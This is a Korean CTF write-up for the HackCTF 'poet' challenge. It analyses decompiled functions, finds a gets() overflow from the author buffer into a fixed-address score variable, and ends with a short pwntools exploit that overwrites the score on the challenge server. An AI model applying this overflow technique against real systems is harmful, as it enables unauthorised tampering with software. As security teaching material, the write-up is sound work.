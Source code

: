 **HackCTF - poet**

| layout | title                         | auther   | categories | tags           |
| ------ | ----------------------------- | -------- | ---------- | -------------- |
| post   | HackCTF - poet | Y3oj4eng | writeup    | writeupwargame |

# Analysis
---

### `file` & `Checksec`


```bash
mac at ubuntu in ~/Desktop/hackCTF
$ file poet 
poet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=65fc088e5fe2995da2cc64236196b75a60dc76f0, not stripped

mac at ubuntu in ~/Desktop/hackCTF
$ checksec poet 
[*] '/home/mac/Desktop/hackCTF/poet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

ELF 64-bit 바이너리에 `NX` 미티게이션이 적용되었다.

따라서 스택, 힙, 데이터영역에 실행권한이 제한된다.

바이너리를 실행시켜보도록 한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./poet 

**********************************************************
*     우리는 2018년의 시인(poet)을 찾고 있습니다.        *
*  플래그상을 받고 싶다면 지금 한 줄의 시를 쓰세요!      *
**********************************************************

Enter :
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
이 시의 저자는 누구입니까?
> DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD

+---------------------------------------------------------------------------+
시 내용
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
점수:1145324612
```

프로그램의 실행 프로세스는 이전 문제들과는 다소 차이가 있었다.
실행시, 한 줄의 시를 써달라며 입력을 받은 뒤, 시의 저자를 입력해달라고 다시 입력받는다.

이후, **점수**를 출력해준디. 문제에서는 정확히 `1,000,000` 점을 획득해야 한다는 문자열이 출력된다.

해당 부분을 참고한 뒤 `IDA`를 통해 분석을 진행한다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  const char *v3; // rdi

  setvbuf(_bss_start, 0LL, 2, 0LL);
  v3 = s;
  puts(s);
  while ( 1 )
  {
    get_poem();
    get_author(v3);
    rate_poem(v3);
    if ( score == 1000000 )
      break;
    v3 = asc_400D78;
    puts(asc_400D78);
  }
  reward(v3);
}
```

`main`함수의 구성이다.
`buf` 설정이후 일련의 문자열을 출력한뒤 `score`값이 `1000000` 이 될 떄 까지 무한루프에 들어간다.

무한루프 내에서는 `get_poem()`과 `get_author()` 그리고 `rate_poem()`함수가 실행된다.

순차적으로 함수들을 살펴보도록 한다.

```c
__int64 get_poem()
{
  __int64 result; // rax

  printf("Enter :\n> ");
  result = gets(poem);
  score = 0;
  return result;
}
```
`get_poem()` 함수는 `gets`를 통해 `poem`에 값을 입력받고 해당 값을 `result`변수에 저장한다.

참고로, `poem`변수는 고정주소의 `bss` 영역에 존재한다.

![image](https://user-images.githubusercontent.com/33051018/76163900-a8e3b600-618d-11ea-9ecd-0a6394acfb6b.png)


다음으로 `get_author()`이다.

```c
__int64 get_author()
{
  printf(&byte_400C38);
  return gets(&unk_6024A0);
}
```
위 함수는 그냥 간단히 문자열 출력 이후 `unk_6024A0`에 값을 입력받는다.

위 그림에서도 볼 수 있듯 해당 값은 `poem` 변수 근방에 위치하고 있다.

```c
int rate_poem()
{
  char dest; // [rsp+0h] [rbp-410h]
  char *s1; // [rsp+408h] [rbp-8h]

  strcpy(&dest, poem);
  for ( s1 = strtok(&dest, " \n"); s1; s1 = strtok(0LL, " \n") )
  {
    if ( !strcmp(s1, "ESPR")
      || !strcmp(s1, "eat")
      || !strcmp(s1, "sleep")
      || !strcmp(s1, "pwn")
      || !strcmp(s1, "repeat")
      || !strcmp(s1, "CTF")
      || !strcmp(s1, "capture")
      || !strcmp(s1, "flag") )
    {
      score += 100;
    }
  }
  return printf(asc_400BC0, poem, (unsigned int)score);
}
```

다음으로 `rate_poem()` 함수이다.

해당 함수는 `get_poem()`에서 값을 입력받았던 `poem`변수의 값을 `dest`로 복사한다.
이후 `strtok`를 통해 단어를 잘라가며 `ESPR, eat, sleep, pwn, repeat, CTF, capture, flag` 중 한 단어가 있을 경우 100점을 더한다.

우리는 1,000,000점을 얻어내야 한다.

`dest` 변수는 `rbp-0x410`에 위치함으로 1040bytes의 길이를 가지며 위 단어 중 가장 짧은 단어인 `eat, pwn, CTF`와 같이 3bytes의 문자들을 이용하여도 우리의 목표인 1,000,000점은 얻어낼 수 없다.

우리는 목표 점수를 얻어내야하지만, 정당한 방식을 통해서는 해당 점수를 얻어내지 못하도록 설계되어있다.

일단은 저 `score`변수의 위치를 확인해보았다.

![image](https://user-images.githubusercontent.com/33051018/76164046-e39a1e00-618e-11ea-917b-acceee876149.png)

다행히도 `score` 변수 또한 고정주소값을 갖는 `bss`영역에 위치하고 있었다.

우리의 목표는 `score`변수를 1,000,000점으로 조작하는 것이다.

`get_poem` 함수에서도 `gets()`를 통해 `bss` 영역에 위치하는 변수에 값을 입력받으나 입력받은 이후 `score=0`으로 초기화하는 코드가 있기 떄문에 해당 부분에서 `score` 값을 조작하는 것은 불가능하다.

`get_poem` 이후, `get_author` 함수가 실행되며 다시 `bss`영역 변수에 `gets()`를 통해 값을 입력받으며 이 부분이 `score` 변수를 조작하기 적절하다.

따라서, 해당 로직을 이용하여 문제를 풀면 점수를 조작할 수 있을것 같다.

![image](https://user-images.githubusercontent.com/33051018/76164940-45aa5180-6196-11ea-8cb1-7db9f5e4755c.png)

두 변 수 사이의 거리는 64bytes 이다.

첫번쨰 입력에서는 아무값이나 입력하고 두번쨰 값을 입력받을떄 페이로드를 전달하도록 한다.

`payload : dummy(64bytes) + 1,000,000`


# Exploit
---

```python
from pwn import *

context.log_level = 'debug'

p = remote('ctf.j0n9hyun.xyz', 3012)

#p = process('./poet')

payload = ''
payload += 'A' * 64
payload += p64(1000000)

# get_poem()
p.recvuntil('> ')
p.sendline('Y3oj4eng')

# get_author()
p.recvuntil('> ')
p.sendline(payload)

p.interactive()

```




